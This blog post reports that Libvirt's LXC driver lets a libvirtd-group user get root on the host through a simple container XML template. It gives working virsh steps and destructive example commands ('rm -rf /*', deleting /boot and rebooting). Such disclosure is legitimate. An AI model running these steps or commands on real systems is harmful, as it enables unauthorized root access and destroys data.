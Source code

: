 ```yaml
---
layout: post
title: Docker Container Madness
---
```


(...or How I Got Root in Less than 5 Minutes)

I'm unsure if this is actually a vulnerability or just a usability problem with the normal behaviour of [LXC](https://linuxcontainers.org/)/[Docker](https://www.docker.com/)/[Libvirt](https://libvirt.org/). Nevertheless, this seemingly harmless template file seems to cause **A LOT** of worry, as it allowed me to elevate privileges on the host system from an ordainary user account. I imagine new users of Docker, like myself, should be more concerned about how safe these defaults really are.

<p align="center">
<img src="https://raw.githubusercontent.com/adrianlshaw/adrianlshaw.github.com/master/images/docker.png" alt="Docker logo" title="Docker" style="width: 50%; height: 50%"/>
</p>

If you want to try this out, then here is the preamble if you are running a Debian-based Linux. In this case I am running Ubuntu 14.04.1. 
{% highlight bash %}
admin@host:~$ sudo apt-get install docker virt-manager
{% endhighlight %}

Create an unprivileged user, but with access to the libvirtd group:
{% highlight bash %}
admin@host:~$ sudo useradd -G libvirtd user 
admin@host:~$ sudo passwd user 
{% endhighlight %}
Now you should login as the ordinary user. Save the following XML template, which contains a name, a memory limit, console access and a shell. E.g. at /tmp/container.xml

{% highlight xml %}
<domain type='lxc'>
	<name>test</name>
	<memory>102400</memory>
	<os>
		<type>exe</type>
		<init>/bin/sh</init>
	</os>
	<devices>
		<console type='pty'/>
	</devices>
</domain>
{% endhighlight %}

Import the template into Libvirt:
{% highlight bash %}
user@host:~$ virsh define container.xml
{% endhighlight %}

Start the container. Make sure you have the Libvirt environment variable exported to work with LXC (e.g. **LIBVIRT_DEFAULT_URI=lxc:///**, such that Libvirt doesn't go looking for Xen or KVM.

{% highlight bash %}
user@host:~$ export LIBVIRT_DEFAULT_URI=lxc:///
user@host:~$ virsh start test
user@host:~$ virsh console test
{% endhighlight %}

And now try to run the **bash** shell:

{% highlight bash %}
  Connected to domain test
  Escape character is ^]
  
# bash
  bash: groups: command not found
  /bin/lesspipe: 1: /bin/lesspipe: basename: not found
  /bin/lesspipe: 1: /bin/lesspipe: dirname: not found
  /bin/lesspipe: 295: [: =: unexpected operator
  Command 'dircolors' is available in '/usr/bin/dircolors'
  The command could not be located because '/usr/bin' is not included in the PATH environment variable.
  dircolors: command not found
root@host:/# 
{% endhighlight %}

Huh? You now have root on the host. 
What kind of messed up world is this? I can read/write to any file on the host:

Provide devastation:
{% highlight bash %}
root@host:/# rm -rf /*
{% endhighlight %}

Or alternatively just cause a bit of downtime:

{% highlight bash %}
root@host:/# rm /boot/*; reboot;
{% endhighlight %}

You can access a lot of the system programs in /bin, but it's trivial to add yourself to the `sudoers` group instead. 
Is it possible to be careful with Docker? It doesn't seem safe for mortals and is hardly encouraging. Like what Dan Walsh said in a recent article, it seems that "containers do not contain". At least not without a lot of experience and carefully crafted configs. It would be a shame if such obscure semantics will let down the overall usability of the platform.

Thoughts are welcomed. Especially from Docker magicians - what are the semantics behind this configuration file? Privileges by default? My user had no superuser access...I expect them to remain that way. 

{% highlight bash %}
$ docker version

Client version: 1.0.1
Client API version: 1.12
Go version (client): go1.2.1
Git commit (client): 990021a
Server version: 1.0.1
Server API version: 1.12
Go version (server): go1.2.1
Git commit (server): 990021a
{% endhighlight %}
